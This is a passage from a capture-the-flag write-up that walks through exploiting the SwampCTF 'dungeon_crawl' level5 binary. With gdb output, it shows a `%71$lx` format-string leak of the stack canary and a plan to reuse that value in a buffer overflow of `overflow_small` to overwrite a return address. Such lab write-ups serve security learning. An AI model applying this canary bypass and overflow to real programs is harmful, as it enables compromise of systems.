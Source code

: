 The output may seem confusing especially when many registers have the same values. You will notice, however, that this output agrees with [System V AMD ABI x64 calling convention in Wikipedia](https://en.wikipedia.org/wiki/X86_calling_conventions) that the 1st argument is in `rsi`, the 2nd is in `rdx`, the 3rd is in `rcx`, the 4th is in `r8`, the 5th is in `r9`, and the subsequent ones are in the stack starting from the lower memory address. The stack canary is 0x208 bytes away from the top of the stack. In other words, it's the 66th QWORD in the stack (including the one on the top of the stack). Since the first 5 arguments are in the registers, that makes the stack canary the 71st argument to `printf`. Thus, the format string we use to print its value is `%71$lx`. We use `%lx` instead of `%x` because the stack canary is 64 bits large. `%x` prints only 32 bits.

Let's check if our guess is correct. 
```
(gdb) define hook-stop
Redefine command "hook-stop"? (y or n) y
Type commands for definition of "hook-stop".
End with a line saying just "end".
>p/x $rax
>x/2xw $rsp+0x208
>end
(gdb) r
Starting program: /home/solomonbstoner/Desktop/CTF unsorted and disorganised/SwampCTF/dungeon_crawl/level5 
[...]
Choice [0 exit][1 small][2 large][3 format]: 3
Path 3 - The possibilities are endless!
%71$lx
2c7dc6248a7eac00
$3 = 0x2c7dc6248a7eac00
0x7fffffffdc48:	0x8a7eac00	0x2c7dc624

Breakpoint 2, 0x0000000000400aaa in format_string ()
=> 0x0000000000400aaa <format_string+74>:	64 48 33 04 25 28 00 00 00	xor    rax,QWORD PTR fs:0x28
(gdb) 
```
`2c7dc6248a7eac00` is the value printed out by `printf`. `$3 = 0x2c7dc6248a7eac00` is the value of `rax` after the instruction `mov    rax,QWORD PTR [rsp+0x208]` is executed. `0x7fffffffdc48:	0x8a7eac00	0x2c7dc624` is the memory dump of the stack canary itself. Since the memory dump shows the same value printed by `printf`, we know our format string is correct. We will use that value in our exploit input so that we will not change the stack canary's value, thereby bypassing the stack protection. This means we are free to override the return address from `<format_string>`. Unfortunately, `<fgets>` in `<format_string>` prevents buffer overflow by limiting user input to only 0x1ff characters.
```
0x0000000000400a8b <+43>:	mov    esi,0x1ff
0x0000000000400a90 <+48>:	mov    rdi,rsp
0x0000000000400a93 <+51>:	call   0x400780 <fgets@plt>
```
The door may be locked, but we can climb in through the window. Instead of overriding the return address of `<format_string>`, we override the return address of `<overflow_small>`. It provides a buffer 0x20 characters large, but reads 0x40 characters, so a buffer overflow here is possible. 
```
Breakpoint 4, 0x00000000004009dc in overflow_small ()
=> 0x00000000004009dc <overflow_small+60>:	e8 2f fd ff ff	call   0x400710 <fread@plt>
(gdb) info registers
[...]
rdx            0x40	64
```
Best part of it all is that the value of the stack canaries in `<overflow_small>` and `<format_string>` comes from the same source `QWORD PTR fs:0x28`. We can use the value of the stack canary we read in `<format_string>` in our stack smashing exploit using function `<overflow_small>`.
